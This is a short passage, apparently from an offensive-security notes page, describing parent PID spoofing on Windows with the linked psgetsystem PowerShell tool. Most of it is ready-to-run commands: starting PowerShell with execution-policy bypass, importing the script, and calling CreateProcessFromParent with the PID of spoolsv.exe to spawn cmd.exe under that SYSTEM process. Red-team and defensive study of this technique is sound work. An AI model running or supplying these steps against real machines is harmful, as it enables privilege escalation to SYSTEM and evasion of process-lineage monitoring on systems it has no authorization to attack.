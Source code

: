 [GitHub - decoder-it/psgetsystem: getsystem via parent process using ps1 & embedded c#](https://github.com/decoder-it/psgetsystem)

Impersonate user via parent process spoofing using ps1 and embedded c#. Parent PID Spoofing can be executed through the [psgetsystem project](https://github.com/decoder-it/psgetsystem) in the following manner.

```
powershell -ep bypass
```
```
Import-Module .\psgetsys.ps1 
```
```
[MyProcess]::CreateProcessFromParent([Process ID of spoolsv.exe],"C:\Windows\System32\cmd.exe","")
```

